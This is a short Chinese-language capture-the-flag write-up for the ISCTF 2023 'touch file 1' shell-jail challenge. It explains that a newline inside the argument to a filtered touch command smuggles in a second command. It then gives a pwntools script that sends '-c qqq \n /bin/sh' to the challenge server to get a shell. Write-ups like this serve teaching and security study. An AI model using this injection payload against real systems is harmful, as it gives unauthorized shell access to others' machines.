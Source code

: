 ```yaml
---
title: isctf2023 - touch file 1
date: 2023/12/4 12:00:00
tags:
    - shell jail
---
```


## 文件分析

保护全开  
ghidra分析为64位程序

## 解题思路

考察命令注入，进入touch后存在字符检查，把大部分字符都ban了，
但是想到平时输命令都是按回车执行的，那么利用换行能不能结束touch命令呢？

给新手提个醒，read函数虽然是按'\n'截断输入的，但是将'\n'包含在payload中发送过去时，
只要不是最后一个字符，就不会被截断

测试一下，成功拿到shell

## EXPLOIT

```python
from pwn import *
sh = remote('43.249.195.138', 20440)
sh.sendline(b'1')

sh.sendline(b'-c qqq \n /bin/sh')

sh.interactive()
```

Done.
